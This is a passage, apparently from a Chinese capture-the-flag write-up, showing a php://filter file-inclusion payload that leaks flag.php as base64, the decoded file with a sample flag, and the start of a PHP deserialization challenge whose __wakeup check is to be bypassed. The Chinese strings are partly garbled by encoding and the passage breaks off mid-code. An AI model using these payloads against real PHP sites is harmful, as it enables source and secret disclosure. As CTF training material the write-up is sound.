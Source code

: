 `payload：?file=php://filter/read=convert.base64-encode/resource=./flag.php`

将得到的base64解码

```php+HTML
<!DOCTYPE html>

<html>

    <head>
        <meta charset="utf-8">
        <title>FLAG</title>
    </head>

    <body style="background-color:black;"><br><br><br><br><br><br>
        
        <h1 style="font-family:verdana;color:red;text-align:center;">ååï¼ä½ æ¾å°æäºï¼å¯æ¯ä½ çä¸å°æQAQ~~~</h1><br><br><br>
        
        <p style="font-family:arial;color:red;font-size:20px;text-align:center;">
            <?php
                echo "æå°±å¨è¿é";
                $flag = 'flag{d144e819-346a-49ab-98e7-2fea0b2b9f6d}';
                $secret = 'jiAng_Luyuan_w4nts_a_g1rIfri3nd'
            ?>
        </p>
    </body>

</htmlPgo
```

### PHP

常规扫描手工or御剑，发现`www.zip`存在源码

class.php

```php
<?php
include 'flag.php';


error_reporting(0);


class Name{
    private $username = 'nonono';
    private $password = 'yesyes';

    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }

    function __wakeup(){
        $this->username = 'guest';    //此处需要绕过
    }

    function __destruct(){
        if ($this->password != 100) {
            echo "</br>NO!!!hacker!!!</br>";
            echo "You name is: ";
            echo $this->username;echo "</br>";
            echo "You password is: ";
            echo $this->password;echo "</br>";
            die();
```